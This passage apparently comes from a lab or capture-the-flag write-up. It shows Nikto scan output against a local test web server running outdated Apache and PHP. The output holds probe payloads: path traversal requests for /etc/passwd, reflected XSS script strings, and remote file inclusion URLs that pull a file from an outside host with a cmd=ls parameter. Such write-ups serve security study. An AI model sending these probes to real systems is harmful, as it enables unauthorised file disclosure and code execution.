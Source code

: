 Nothing except port 80 was open. I decided to run nikto and sqlmap against the target. Here's what nikto reported:

```
# ./nikto.pl -host 192.168.1.155
- Nikto v2.1.5
---------------------------------------------------------------------------
+ Target IP:          192.168.1.155
+ Target Hostname:    192.168.1.155
+ Target Port:        80
+ Start Time:         2012-04-07 17:34:31 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.12 with Suhosin-Patch
+ Retrieved x-powered-by header: PHP/5.2.4-2ubuntu5.12
+ PHP/5.2.4-2ubuntu5.12 appears to be outdated (current is at least 5.3.6)
+ Apache/2.2.8 appears to be outdated (current is at least Apache/2.2.19). Apache 1.3.42 (final release) and 2.0.64 are also current.
+ DEBUG HTTP verb may show server debugging information. See http://msdn.microsoft.com/en-us/library/e8z01xdh%28VS.80%29.aspx for details.
+ OSVDB-877: HTTP TRACE method is active, suggesting the host is vulnerable to XST
+ /index.php?page=../../../../../../../../../../etc/passwd: PHP include error may indicate local or remote file inclusion is possible.
+ /index.php?page=../../../../../../../../../../boot.ini: PHP include error may indicate local or remote file inclusion is possible.
+ OSVDB-12184: /index.php?=PHPB8B5F2A0-3C92-11d3-A3A9-4C7B08C10000: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-2562: /login/sm_login_screen.php?error=\"><script>alert('Vulnerable')</script>: SPHERA HostingDirector and Final User (VDS) Control Panel 1-3 are vulnerable to Cross Site Scripting (XSS). http://www.cert.org/advisories/CA-2000-02.html.
+ OSVDB-2562: /login/sm_login_screen.php?uid=\"><script>alert('Vulnerable')</script>: SPHERA HostingDirector and Final User (VDS) Control Panel 1-3 are vulnerable to Cross Site Scripting (XSS). http://www.cert.org/advisories/CA-2000-02.html.
+ OSVDB-3092: /home/: This might be interesting...
+ OSVDB-3092: /img/: This might be interesting...
+ OSVDB-3092: /login/: This might be interesting...
+ OSVDB-3092: /misc/: This might be interesting...
+ OSVDB-3268: /icons/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ /index.php?module=PostWrap&page=http://cirt.net/rfiinc.txt?: PHP include error may indicate local or remote file inclusion is possible.
+ /index.php?page=http://cirt.net/rfiinc.txt?: PHP include error may indicate local or remote file inclusion is possible.
+ /index.php?page=http://cirt.net/rfiinc.txt?: PHP include error may indicate local or remote file inclusion is possible.
+ /index.php?page=http://cirt.net/rfiinc.txt??: PHP include error may indicate local or remote file inclusion is possible.
+ /index.php?page[path]=http://cirt.net/rfiinc.txt??&cmd=ls: PHP include error may indicate local or remote file inclusion is possible.
+ /login.php: Admin login page/section found.
+ 6474 items checked: 1 error(s) and 22 item(s) reported on remote host
+ End Time:           2012-04-07 17:35:04 (GMT-4) (33 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```
